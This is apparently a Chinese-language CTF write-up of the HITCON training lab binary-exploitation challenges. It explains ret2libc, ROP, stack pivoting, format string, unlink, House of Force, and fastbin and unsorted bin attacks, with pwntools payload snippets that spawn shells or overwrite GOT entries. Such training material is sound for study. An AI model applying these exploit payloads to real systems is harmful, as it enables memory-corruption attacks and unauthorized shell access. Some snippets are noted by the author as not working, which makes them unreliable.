

HITCON培训实验室-PWN题解
HITCON（台湾骇客年会）是台湾最大的安全技术会议，首次会议在2005年举办
lab1-sysmagic //patch
进入get_flag函数看一下
判断成功条件是buf==v2，这题是道简单的逆向，我们patch一下。
jnz指令的意思是结果不为零则转移。

可以看到判断条件改变了，Linux运行一下。
lab2-orw //prctl(),shellcode
可以看到，程序逻辑就是让我们输入0xC8长度的字符串，然后当作函数运行。
发现单纯的输入shellcode并不能getshell，看到orw_seccomp这个函数被我忽略了，再去看一下。
有个prctl函数，陌生。
prctl()是用来控制进程的系统调用
在这里它限制了进程使用某些系统调用 ，所以我们不可以通过execve的shellcode来获取flag
这里我们通过 open(),read(),write()三个函数的系统调用来获取flag
这个prctl函数很迷，我有点搞不懂，反正我们只能靠如上三个函数来get flag了。
fp = open("flag",0)read(fp,buf,0x30)write(1,buf,0x30)
lab3-re2sc //ret2shellcode
name很明显是bss段，我们可以考虑写入shellcode，然后gets溢出修改ret。
发现getshell不成功…怀疑offset有问题，就gdb看一下：

和IDA上的不一样。
lab4-ret2lib //ret2libc
程序一开始要输入一个东西，然后传入see_something打印出地址。所以我们可以用它来泄露got表的地址。
这里需要注意，strtol的作用是将字符串转成整形。
###leak libc###read_got = elf.got['read']p.sendlineafter('Give me an address (in dec) :',str(read_got))p.recvuntil('The content of the address : ')read_addr = int(p.recv(10),16)libc = LibcSearcher('read',read_addr)libc_base = read_addr - libc.dump('read')
现在，可以利用栈溢出。
值得注意的是直接read是无法造成栈溢出的，因为此处并没有存在漏洞，然而print_something中出现了strcpy这个函数，将我们输入的copy到栈上另一个变量中，造成了栈溢出。
###stack overflow###system = libc_base + libc.dump('system')sh = libc_base + libc.dump('str_bin_sh')payload = 'A' * 0x38 + 'dead' + p32(system) + 'beef' + p32(sh)p.sendlineafter('Leave some message for me :',payload)
lab5-simplerop //rop
既然是简单的ROP，那我们构造一条简单的ROP链即可。
既然是静态链接，我们就需要找一些有用的gadgets。
考虑syscall调用来get shell。
利用特殊的gadget 例如是 mov dword ptr [ecx],eax ， 将字符串压入eax中，要写入的地址压入ecx中，然后通过这个gadget就可以将字符串写入想写入的内存了
###write /bin/sh into memory###payload = 'A' * 28 + 'dead'payload+= p32(pop_edx_ret) + p32(bss) + p32(pop_eax_ret) + "/bin" + p32(gadget)payload+= p32(pop_edx_ret) + p32(bss+4) + p32(pop_eax_ret) + "/sh\x00" + p32(gadget)
接着把syscall的参数压入寄存器
//execve("/bin/sh\x00",0,0)//对应为 eax=0xb(系统调用号) ebx = buf ;edx=0 ; ecx = 0###push argv into register###payload+= p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(bss)payload+= p32(pop_eax_ret) + p32(0xb) + p32(int_80)
结果没有get shell…
lab6- migration //stack pivoting
存在一个stack overflow的情况，但是可溢出的大小只有(0x40-0x28)=0x18
然后判断条件是如果我们返回main不满足条件就直接退出
More About Stack Pivot：
http://www.pwn4fun.com/pwn/stack-pivot-and-stack-smash.html
栈迁移的一种实现方法：
通过ebp,esp将栈劫持到bss段上，将ebp覆盖为fake_ebp，然后利用leave_ret这个gadget将esp劫持到fake_ebp，然后就是正常的ret2libc。
leave_ret:mov %ebp,%esppop %ebppop %eip
###stack provit###payload = 'A' * 0x28 + p32(bss+0x200) + p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss+0x200) + p32(0x100)p.send(payload)
注意send。
现在的ebp已经被覆盖为了bss+0x200，然后会执行leave_ret，将ebp的值赋给esp，此时栈就被劫持到了bss+0x200处。
接下来要泄露libc，为了保持栈的平衡，还需要其他的gadget。
泄露libc我们要将栈迁移到另一个我们能控制的地方,bss+0x100即可。
###leak libc###payload = p32(bss+0x100) + p32(puts_plt) + p32(pop_ebx_ret) + p32(puts_got) + p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss+0x100) + p32(0x100)p.sendline(payload)puts_addr = u32(p.recv(4))
接下来就是get shell。通过read读入sh。
需要注意的是为了保持栈平衡，仍然需要gadgets。

get shell尝试不成功…后来发现只要劫持到Bss+0x200就会失败。
###get shell###system = libc_base + libc.dump('system')payload= p32(bss+0x500) + p32(read_plt) + p32(pop_ret) + p32(0) + p32(bss+0x500) + p32(0x20) + p32(system) + 'dead' + p32(bss+0x500)p.send(payload)p.send('/bin/sh\x00')p.interactive()
lab7-crack //format string
首先随机读入一个password，然后格式化字符串，然后输入密码如果相同则执行system了。
思路是这样的：利用格式化字符串改掉password的内容，然后输入即可。
此处采用pwntools自带的fmtstr_payload自动生成payload，但是64位程序不适用，具体原因及利用方式将会另开章节说明。
payload = fmtstr_payload(offset,{address:1234})p.recvuntil('What your name ? ')p.sendline(payload)
lab8-craxme //format string
开了Canary以及NX，虽然存在栈溢出但是不能直接利用。
但是还有格式化字符串呢，这次可以利用format string修改GOT表。
计算格式化字符串偏移还有其他办法，这里不赘述。
需要注意的是：
goal地址要从push开始，不然system无参数。
lab9-playfmt //format string
直接看主要函数。
思路：没有限制格式化字符串的次数，格式化字符串泄露libc并get shell。
但是需要注意buf不在栈上，而是在bss段上。
lab10-hacknote //UAF
参考这篇文章即可：http://www.pwn4fun.com/pwn/uaf-example.html
lab11-bamboobox
可以看到v3存放了两个函数的指针。case5有调用。
就是打印。
最多能创建100个item，size没有限制但是有长度限制。只有用一个指针数组用来存放chunk的地址以及size。
要注意,对size的检查没有检查是否为负值，所以如果为负值，会变成一个很大的数。

首先判断要改的是否存在，但是又要求输入大小，存在溢出的情况。
没有什么利用点。
思路：unlink or house of force
unlinkadd(0x80,'AAAA')#0add(0x80,'BBBB')#1add(0x80,'CCCC')#2payload = p64(0) + p64(0x80) + p64(fake_FD) + p64(fake_BK)payload = payload.ljust(0x80,'A')payload+= p64(0x80) + p64(0x90) # make sure the prev_inuse is 0
首先创建三个chunk(不属于fastbin)，然后通过chunk0溢出chunk1。
在chunk0中伪造一个0x80的fake_chunk，然后将chunk1的prev_size改为0x80（原本加上chunk head应该是0x91，未free应是0），然后修改chunk1的prev_inuse为0，让系统相信chunk0是free状态的。并且通过prev_size绕过了size的检查。
可以看到，伪造的chunk以及修改的prev_size and prev_inuse已经可以了。
接下来free chunk1后，chunk1就会与chunk0进行unlink操作。
此时，指针指向了chunk0-0x18处，接下来进行覆写。
因为我们的fake_FD是chunk0 – 0x18，所以我们修改chunk0即可。
atoi_got = elf.got['atoi']payload = p64(0) + p64(0) + p64(0x80) + p64(fake_FD) + p64(0x80) + p64(atoi_got)
首先将chunk1改为atoi_got，然后将atoi_got的内容改为magic函数。
atoi_got = elf.got['atoi']payload = p64(0) + p64(0) + p64(0x80) + p64(fake_FD) + p64(0x80) + p64(atoi_got)change(0,len(payload),payload)payload = p64(magic)change(1,len(payload),payload)
House of Force
这个攻击方法大概就是通过溢出修改top chunk的size，然后我们就可以申请到top chunk。
add(0x88,'aaaa')payload = 'A' * 0x80 + p64(0) + p64(0xffffffffffffffff)change(0,len(payload),payload)
这里利用了chunk的复用规则，并且上面说过了-1的事情。
通过HOF方法将top chunk申请到指定位置修改v3的指针。
目的是修改0x1a8d000处chunk的内容。
top距离它是(0x10+0x10) + (0x80 + 0x10)[目标chunk大小0x10加head大小0x10]
这么算的话，top chunk会转移到第一个chunk的位置，但是此时top chunk的头也就是存放函数chunk的头，再进行切割会从如图所示地方开始切割。作为chunk head达不到控制的目的，所以还需0x10额外作为top chunk的head。
###House of Force###heap_base = -(0x80 + 0x10)-(0x10+0x10)goal = heap_base - 0x10add(goal,'top chunk!')add(0x10,p64(magic)+p64(magic))
此时如上图，从图示所示位置开始分配，就相当于重新分配到了原来的那个存放函数指针的chunk。
成功修改了。
lab12-secretgarden
长度好像没有限制，个数可以有0x63个。
将chunk的size清空，并free掉了chunk，并没有清空chunk。
遍历list并且free并且指针置0。
循环遍历并输出list中的flower。
leak libc
其实可以泄露libc，但是因为给了magic函数所以不泄漏也没关系，现在走一遍泄露的流程。
可以看到这里很正常的就是unsorted bin放到bin中。
清空所有的chunk后再malloc回来就可以看到，main_arena+88还在chunk中。
但是新malloc的时候最好就输入一个a，因为会覆盖，输入一个a覆盖两位没关系，是不变的。
但是要clean才可以，还有另一种：
这种delete后要交互式添加chunk…不然不成功。。。
fastbin attack
因为fastbin(LIFO)的free特性是检查第一个chunk，若要free的chunk和第一个一样则报错，如上图所示这样就不会出现问题。
再根据fastbin的分配特性，我们修改fd指针即可。
上图是它的保护机制。
劫持got表，上图是atoi函数的got表，要找到一个合适的位置绕过malloc的检查。
这里看起来可以，前面0x8的prev_size，后面0x8的size。
看到上图60这个地方作为size刚好在fastbin范围内，60前面有0x5的0，所以要推后。
size字段的高四位可以不为0
上图所示60到了最后面，即是chunk的size位，后面我突然发现…0x602020的位置刚好是puts的got地址，所以方便起见我们就修改Puts的got表吧。
目标地址已经进入了fastbin。
要注意的是，我们size选的是0x60(包括chunk head)，所以如果目标在0x70(包括head)这条链上，若申请0x50的chunk不会申请到目标(用户申请的size不包括head)，若申请0x60则通不过malloc的检查。
就像我们劫持malloc_hook一样，一般找0x7f的size，但是申请的时候是申请0x60，具体原因参照glibc源代码。
add(0x50,'aaaa')add(0x50,'bbbb')delete(0)delete(1)delete(0)add(0x50,p64(fake_chunk))add(0x50,'cccc')add(0x50,'dddd')payload = 'A' * (puts_got - fake_chunk - 0x10) + p64(magic)add(0x50,payload)
总结：
我总结到了一个关键的地方就是，利用fastbin attack(不管是配合UAF还是double free)时，要根据我们自己能找到符合条件的size来根据这个size创建chunk，不然不是通不过检查就是分配不到。
当然我觉得可以通过泄露libc寻找gadgets然后劫持__malloc_hook来直接getshell，就不用这么麻烦地去找符合条件的size。
lab13 heapcreator
Analysis
根据菜单可以看到，有create、edit、show、delete四个主要功能函数。
先看create，最多可以创建10个heap，全部由数组heaparray管理，每个heap会有一个0x10的chunk来存放heap的指针及大小。
size可以自定义。

注意read_input这里，heaparray[v1]是存放size的，所以这里存在一个off-by-one。
常规打印。
free并将指针置空了。
How to exploit
首先，size可控，其次，存在off_by_one，最重要的是，chunk中存有指针。
这是create了一个0x80大小的heap，0x10的chunk中包含了heap的指针，所以我们可以通过chunk overlapping将其可控。
有的人会问，为什么不直接修改chunk2中的指针呢？
因为我们重新申请的时候chunk2实际上已经是heap了，而show中打印的是chunk的指针。
Start to exploit

heap1和heap2大小为0x10，chunk1和chunk2大小也是0x10，加上head一共是0x81。
可以看到chunk1已经被放到了0x80的链上面。
我们的目标就是覆盖标红的指针。
覆盖成功，需要注意，第一个红框存放的是heap2的大小，此时系统会认为heap2是在602018(free_got)这个地方，大小是0x10，因为要修改free_got指向system，所以size不能随意覆盖。
###leak libc###create(0x18,'aaaa')#0create(0x10,'bbbb')#1create(0x10,'cccc')#2create(0x10,'$0;')#3payload = 'A'*0x10 + p64(0) + p64(0x81)edit(0,payload)delete(1)free_got = elf.got['free']payload = 'A' * 0x40 + p64(0x10) + p64(free_got)create(0x70,payload)show(2)free_got = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))log.success('free leak--->'+hex(free_got))
上面已经说过了，此时系统认为heap2是在free_got处的，所以修改heap2其实就是修改free_got。
###get shell###libc = LibcSearcher('free',free_got)libc_base = free_got - libc.dump('free')system = libc_base + libc.dump('system')edit(2,p64(system))delete(3)p.interactive()
此时我们已经在heap3布置好了/bin/sh，free(heap3)=system(/bin/sh)
lab14 magicheap
Analysis
可以看到有create、edit、delete三个主要功能函数。
还有一个若输入的4896跳到判断magic是否大于0x1305，大于则转到l33t()
现在就是看看如何让magic大于0x1305。

和上一个差不多，size可控，有heaparray来管理heap。
edit要求重新输入size，存在堆溢出。
free并置空。
How to exploit
首先size可控并且可以溢出，但是并没有show功能，所以fastbin attack有点麻烦，unsorted bin attack是不二之选。
Start to exploit
unsorted bin attack的原理及攻击方法这里不再赘述。
create(0x20,'aaa')#0create(0x80,'bbb')#1create(0x20,'ccc')#2delete(1)payload = 'A' * 0x20 + p64(0) + p64(0x90) + p64(fake_fd) + p64(fake_bk)edit(0,len(payload),payload)

可以看到目标已经进入unsorted bin链表。注意FIFO，与fastbin不同。此时的unsorted bin链表已经被我们破坏了，会出问题。
此时再malloc会把0x1135030申请掉，之后再申请理应到了fake chunk，但是会报错。
估计是size检查不通过，所以报错，不过没关系。
一开始的堆布局是这个样子的，当我们申请了unsorted bin中的一个出去后，此时unsorted bin中只剩下一个chunk，反应快的人应该已经想到了。
没错，此时因为unsoted只剩下一个chunk，所以fd、bk被填充为main_arena+offset。
明显也是满足我们的条件的。
关于刚才的问题：
3733 while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)){bck = victim->bk;if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)|| __builtin_expect (chunksize_nomask (victim)> av->system_mem, 0))malloc_printerr ("malloc(): memory corruption");size = chunksize (victim);
第一句，判断bk是否指向本身或为空，若是就指向下一个chunk。
着重看一下判断条件：
if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)|| __builtin_expect (chunksize_nomask (victim)> av->system_mem, 0))
chunk size > 2*SIZE_SZ并且chunk size > av->system_mem才行，但是我们应该满足啊.

原创投稿作者：Railgun
作者博客：www.pwn4fun.com